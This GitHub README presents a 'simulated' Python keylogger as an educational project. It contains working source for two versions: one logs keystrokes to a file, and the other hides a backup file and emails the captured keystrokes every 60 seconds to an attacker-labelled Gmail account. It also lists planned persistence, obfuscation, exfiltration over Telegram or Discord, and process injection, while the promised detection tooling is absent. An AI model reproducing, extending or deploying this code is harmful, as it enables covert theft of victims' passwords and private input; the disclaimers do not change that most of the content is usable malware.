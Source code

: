 # 🕵️‍♂️ Python Keylogger Simulation (Educational Project)

<p align="center">
  <b>Learn Offensive → Build Stronger Defense</b><br>
  <i>Understand how attackers operate &amp; how defenders respond</i>
</p>

<p align="center">
  <img src="https://img.shields.io/badge/Purpose-Educational-blue">
  <img src="https://img.shields.io/badge/Language-Python%203.x-green">
  <img src="https://img.shields.io/badge/Status-Active-orange">
  <img src="https://img.shields.io/badge/License-Ethical%20Use-red">
</p>

---

## 🎯 About This Project

This project simulates how keyloggers work — one of the oldest cyber-attack techniques — and, more importantly, demonstrates how they can be **detected and defended** against.

- 🧠 **Goal:** Understand attacker behavior to build stronger Blue Team defense tools.
- ⚠️ **Disclaimer:** Intended for **educational and research purposes only**.

---

## 📦 Project Versions

| Version | Description |
| ------- | ----------- |
| **v1**  | Basic keylogger — captures keystrokes and saves them to `keylog.txt` |
| **v2**  | Advanced keylogger — captures keystrokes, exfiltrates via email, and stores a hidden backup |
| **v3**  | *Coming soon:* Real-time dynamic detection script &amp; YARA rule for static detection |

---

## 📄 Code Examples & Explanation

### 🔥 Version 1 — Basic Keylogger

```python
from pynput import keyboard

def on_press(key):
    with open("keylog.txt", "a") as log:
        try:
            log.write(f"{key.char}")
        except AttributeError:
            log.write(f" [{key}] ")

listener = keyboard.Listener(on_press=on_press)
listener.start()
listener.join()
```

📝 Explanation:
A straightforward keylogger that writes keystrokes to keylog.txt using the pynput library. Special keys (e.g., Enter, Space) are logged within brackets.

### 🔥 Version 2 — Keylogger with Email Exfiltration

```python
import pynput.keyboard
import threading
import smtplib
import os

log = ""
log_dir = os.path.expanduser("~/.cache")
os.makedirs(log_dir, exist_ok=True)
log_file = os.path.join(log_dir, ".syslog_hidden")

def on_press(key):
    global log
    try:
        log += key.char
    except AttributeError:
        log += f" [{key}] "

def send_mail():
    global log
    if log:
        try:
            server = smtplib.SMTP("smtp.gmail.com", 587)
            server.starttls()
            server.login("attackerEmail@gmail.com", "attackerPassword")
            server.sendmail("attackerEmail@gmail.com", "attackerEmail@gmail.com", log)
            server.quit()
        except Exception as e:
            pass
        with open(log_file, "a") as f:
            f.write(log + "\n")
        log = ""

    timer = threading.Timer(60, send_mail)
    timer.start()

keyboard_listener = pynput.keyboard.Listener(on_press=on_press)
keyboard_listener.start()
send_mail()
keyboard_listener.join()

```
📝 Explanation:
This version enhances functionality by sending keystroke logs to an email every 60 seconds using smtplib. It also creates a hidden backup file (.syslog_hidden) in the system's cache directory.

💡 Future Enhancements
Persistence: Auto-run on startup via system registry or startup folder.

Obfuscation: Use Base64 encoding or package with PyInstaller to hinder analysis.

Network Exfiltration: Transmit logs via alternative channels like Telegram or Discord.

Process Injection: Explore advanced evasion through process injection techniques.

Real-Time Detection: Develop dynamic detection tools for Blue Team process monitoring.

☕ Support My Cybersecurity Learning Journey
<p align="center"> <a href="https://buymeacoffee.com/sudersen" target="_blank"> <img src="https://cdn.buymeacoffee.com/buttons/v2/default-yellow.png" height="50" width="210" alt="Buy Me A Coffee" /> </a> </p>

⚠️ Disclaimer
This project is exclusively for educational and ethical cybersecurity training purposes. Unauthorized use is both illegal and unethical.

📬 Let's Connect
🔗 LinkedIn: www.linkedin.com/in/drsudersen

☕ Buy Me a Coffee : https://buymeacoffee.com/sudersen
